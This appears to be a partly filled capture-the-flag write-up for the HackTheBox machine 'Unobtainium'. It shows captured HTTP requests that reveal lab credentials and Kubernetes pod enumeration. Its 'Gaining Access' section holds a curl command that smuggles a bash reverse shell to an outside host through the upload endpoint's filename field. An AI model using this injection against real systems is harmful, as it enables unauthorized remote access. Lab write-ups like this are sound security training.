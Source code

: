 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings

## External
### Enumeration
![](https://i.imgur.com/0u1Asgr.png)
#### Port `8443`
- This port is a kubernetes port, but to access or send requests it needs credentials.
![](https://i.imgur.com/DBuh8CD.png)
#### Port `80`
![](https://i.imgur.com/oC9p2ut.jpeg)
![](https://i.imgur.com/9WtK6mW.png)
- Users: felamos <felamos@unobtainium.htb>
- I started the app and tried to analyze the app and this was the 1st request sent from the app.
```shell
HEAD / HTTP/1.1
Host: unobtainium.htb:31337
Connection: keep-alive
Accept: */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en-US
If-None-Match: W/"2-l9Fw4VUO7kr8CvBlt4zaMCqXZ0w"
  
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 83
ETag: W/"53-2pKcuKlCOBKa3GLSIAm4J5pPZck"
Date: Mon, 27 May 2024 14:58:13 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```
- I kept analyzing and when i send data from the app this happened
```shell
PUT / HTTP/1.1
Host: unobtainium.htb:31337
Connection: keep-alive
Content-Length: 82
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate
Accept-Language: en-US

{"auth":{"name":"felamos","password":"Winter2021"},"message":{"text":"Hello Rex"}}

HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 11
ETag: W/"b-Ai2R8hgEarLmHKwesT1qcY913ys"
Date: Mon, 27 May 2024 15:01:54 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"ok":true}
```
- ` felamos : Winter2021`
```http
POST /todo HTTP/1.1
Host: unobtainium.htb:31337
Connection: keep-alive
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate
Accept-Language: en-US

{"auth":{"name":"felamos","password":"Winter2021"},"filename":"todo.txt"}

HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 293
ETag: W/"125-tNs2+nU0UiQGmLreBy4Pj891aVA"
Date: Tue, 28 May 2024 04:39:40 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"ok":true,"content":"1. Create administrator zone.\n2. Update node JS API Server.\n3. Add Login functionality.\n4. Complete Get Messages feature.\n5. Complete ToDo feature.\n6. Implement Google Cloud Storage function: https://cloud.google.com/storage/docs/json_api/v1\n7. Improve security\n"}
``` 
- The Credential is not working, so from our previous experiance the kubernetes needed auth. there for it might be for that,
- i pulled the request and added it to burpsuite.
![](https://i.imgur.com/9VDCUoC.png)
![](https://i.imgur.com/FpmqINf.png)

### Gaining Access
![](https://i.imgur.com/ZBTNG5O.png)
- ![](https://i.imgur.com/QjMGm1j.png)
![](https://i.imgur.com/hV3UKgR.png)
- `curl -X POST http://10.10.10.235:31337/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; bash -c \"bash >& /dev/tcp/10.10.14.7/443 0>&1\""}'`

## Internal
### Enumeration
- Analyzing the kubernetes
	- ![](https://i.imgur.com/gWV138s.png)
```shell
(remote) root@webapp-deployment-9546bc7cb-zjnnh:/usr/src/app# curl -v 10.42.0.70:3000
* Expire in 0 ms for 6 (transfer 0x55f66fa510f0)
*   Trying 10.42.0.70...
* TCP_NODELAY set
* Expire in 200 ms for 4 (transfer 0x55f66fa510f0)
* Connected to 10.42.0.70 (10.42.0.70) port 3000 (#0)
> GET / HTTP/1.1
> Host: 10.42.0.70:3000
> User-Agent: curl/7.64.0
> Accept: */*
>
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 2
< ETag: W/"2-l9Fw4VUO7kr8CvBlt4zaMCqXZ0w"
< Date: Tue, 28 May 2024 20:36:19 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
<
* Connection #0 to host 10.42.0.70 left intact
[]
```
- this looks as the before so we can do same exploit.
![](https://i.imgur.com/bNFImww.png)

### Gaining Access


### Maintaining Access


# Random Notes